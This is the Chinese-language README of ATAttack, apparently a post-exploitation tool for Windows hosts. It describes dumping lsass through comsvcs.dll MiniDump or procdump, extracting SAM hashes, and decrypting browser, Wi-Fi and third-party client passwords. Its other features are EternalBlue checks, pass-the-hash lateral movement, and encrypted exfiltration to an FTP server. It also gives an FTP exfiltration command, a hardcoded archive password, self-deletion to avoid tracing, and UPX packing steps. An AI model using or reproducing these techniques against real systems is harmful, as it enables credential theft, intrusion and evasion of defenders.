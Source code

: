 #### 前言

​	 每获取一台机器权限，如果每次都手动操作重复一样的信息收集工作，无疑加大了工作量，既为了能更好的获取内网进一步突破点攻击面,这段闲暇时间造了个简易的轮子，其在真实环境中发现较多未知问题，欢迎各位指正与建议，互相共同进步。

#### v1.0-开发进度：

#### 简介

**ATAttack**是一款后渗透半自动化侦察工具，它从进攻性和防御性安全角度执行许多面向安全性的主机调查“安全检查”。

项目地址：https://github.com/c1y2m3/ATAttack

####  快照预览

###### win10测试环境

![](https://www.yunzhijia.com/microblog/filesvr/5da3eacf32f2ca14fb78c69e)

win2008测试环境：

![](https://www.yunzhijia.com/microblog/filesvr/5dac6de090144e463b1d6194)

##### 使用方法

###### cmd.exe

存储于本地文件夹：

```
python exploit.py
```

回传远程FTP服务器：

```
python exploit.py -t ftp_host -u ftp_user -p ftp_pwd
```

###### 一、基础信息获取：

1、系统驱动器信息获取，判断是否为沙箱环境，从而运行程序

2、系统进程识别，判断是否存在杀软av进程，对其进行输出

3、单机所有用户以及当前用户RDP远程连接导出 

4、当前系统已安装程序列表获取 

5、在当前用户文件夹下查找指定文件，如word、pdf、txt、csv等


###### 二、主机网段收集:

1、基于提取系统远程连接记录，如：远程桌面，arp缓存，windows系统日志(4624、4625)等

（浏览器浏览记录、单机系统记录，系统登录日志记录提取IP）

2、主流浏览器浏览记录提取，通过位操作符判断筛选私有地址去重划分网段。

###### 三、凭证获取:

1、注册表存储sam提取、在线解密  %SystemRoot%\system32\config\sam  

2、使用comsvcs.dll 中MiniDump 函数 dump指定lsass进程,

如失败则使用procdump提取lsa缓存进程，回传ftp，半自动化离线解密  

3、通过netsh 导出系统 wifi密码、Windows Vaults 密码提取，

3、主流浏览器存储密码在线|离线模式解密,目前覆盖chrome、360chrome、ie，

fiefox浏览器解密基于key3.db、key4.db，logins.json文件，密钥加密，回传文件离线解密。

4、第三方主机软件 ，如 Navicat、Putty ,foxmail在线解密 


###### 四、横向移动

1、探测网段存活，如存活则识别windows 系统操作版本

2、如系统版本为windows系统，则检测是否存在永恒之蓝漏洞

3、基于解密出的ntlmhash，对存活主机进行pth哈希传递攻击，执行回显命令。


###### 五：数据回传

将获取的数据落地到本地用户Temp文件夹下存储，进行加密压缩回传，解压密钥为：

`Za!@#$@&**(aKg`，尽可能避免了网络设备溯源，程序结束后进行自删除

1、系统所安装的浏览器历史记录，暂命名为update.log

2、系统所搜索的敏感数据文件存储，暂命名为file_list.txt

3、通过提取lsass进程所保存的内存文件，暂命名为lsass.dmp

4、内网主机所识别对应的windows版本，归属于工作组或域主机消息，暂命名为os_version.txt

## 打包ATAttack二进制文件

##### 测试打包环境:

- Python 2.7.15
- PyInstaller 3.4
- Windows 10

通过[UPX](https://upx.github.io/)压缩，使得ATAttack程序落地更小

- 下载UPX(测试环境为upx-3.95-win64版本)

  `https://github.com/upx/upx/releases`

- pip安装[pyinstaller](https://www.pyinstaller.org/)

  `pip install pyinstaller`

- 进入`ATAttack`目录,并通过upx压缩

  `pyinstaller -F exploit.py --upx-dir=upx-3.95-win64`

- 成功打包二进制控制台单文件`\ATAttack\dist]\exploit.exe`

## 已知故障和错误列表


